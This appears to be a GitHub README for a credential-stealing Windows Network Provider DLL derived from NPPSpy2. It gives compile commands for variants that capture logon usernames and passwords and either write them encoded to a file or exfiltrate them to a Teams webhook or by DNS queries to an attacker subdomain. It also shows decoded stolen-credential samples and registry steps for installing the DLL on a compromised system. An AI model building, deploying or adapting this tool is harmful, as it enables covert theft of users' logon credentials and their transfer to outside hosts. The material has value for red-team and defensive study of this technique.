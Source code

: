 # anp

These are tests to create Network Providers based on [NPPSpy2](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy2) by [gtworek](https://github.com/gtworek). All credit goes to the original author - I'm simply adding some functionality to explore what works best, but I thought it could be interesting for someone so I made it public.

I will use Base64-encoding or AES-encryption in all examples with the following JSON-like structure to store the information: 

```json
{"timestamp":"TIMESTAMP","operation":"OPERATION","domain":"DOMAIN","username":"USERNAME","password":"PASSWORD"}
```


<br>

## 1. Store in a text file + Base64-encoding

The default path is "C:\Windows\Task\default.txt" but you can customize it using the macro /DFILE_PATH:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" 1_textfile_base64.c crypt32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```bash
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9PTEQiLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InFxIn0=
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9ORVciLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InEifQ==
```

Which decoded is:

```json
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 2. Store in a text file + AES-encryption

The default path is "C:\Windows\Task\default.txt" and the default AES password is "TEST1234", but you can customize it using the macros /DFILE_PATH and /DAES_PWD:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" /DAES_PWD=\"TEST1234\" 2_textfile_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```bash
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

You can decrypt it using *decrypt_aes.py*:

```bash
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

And you get:

```json
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 3. Send to Teams webhook + Base64-encoding

There is not a default webhook url, you have to set the value using the macro /DWEBHOOK_URL:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" 3_webhook_base64.c crypt32.lib wininet.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 1:

![imgteams1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams1.png)

<br>

## 4. Send to Teams webhook + AES-encryption

You have to set the webhook url value using the macro /DWEBHOOK_URL, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" /DAES_PWD=\"TEST1234\" 4_webhook_aes.c crypt32.lib wininet.lib advapi32.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 2:

![imgteams2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams2.png)


<br>

## 5. DNS exfiltration + Base64-encoding

This one is not ideal, as the maximum length for a subdomain is 63 characters so it requires multiple DNS queries. As a result, the logon process is delayed by a few seconds, making the slowdown noticeable in some cases.

There is not a default subdomain, you have to set the value using the macro /DSUBDOMAIN:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" 5_dns_base64.c crypt32.lib /link /OUT:anp.dll
```

You can use [this repository](https://github.com/ricardojoserf/dns-exfiltration) for creating the necessary subdomains and the *dns_server.py* script to decode the received values.

```bash
python3 dns_server.py .SUBDOMAIN.DOMAIN.COM
```

![imgdns1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns1.png)

It also generates a log file with the subdomains and decoded values:

![imgdns2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns2.png)

<br>

## 6. DNS exfiltration + AES-encryption

You have to set the subdomain value using the macro /DSUBDOMAIN, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" /DAES_PWD=\"TEST1234\" 6_dns_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

You can use the *dns_server.py* script again to receive resolved domains and store it in a file:

![imgdns3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns3.png)

And the *decrypt_aes.py* script to decrypt the values:

![imgdns4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns4.png)

<br>

--------------------

## Installation


You can follow the instructions in [NPPSpy](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy) by [gtworek](https://github.com/gtworek), which can be summed up to:

- Copy the DLL to a path in the compromised system.

- Add a network provider name at the end of the "ProviderOrder" in `HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order`. For this example I will use "anp".

- Create a key with the format `HKLM\SYSTEM\CurrentControlSet\Services\<CHOSEN_NAME>\NetworkProvider`, for the example I will use `HKLM\SYSTEM\CurrentControlSet\Services\anp\NetworkProvider`.

  - Class = [REG_DWORD]2 - Always this value.

  - ProviderPath = [REG_EXPAND_SZ]"C:\Users\ricardo\Desktop\test.dll" - Path to the DLL.

  - Name = [REG_SZ]"anp" - The name you chose, in this case I will use "anp".

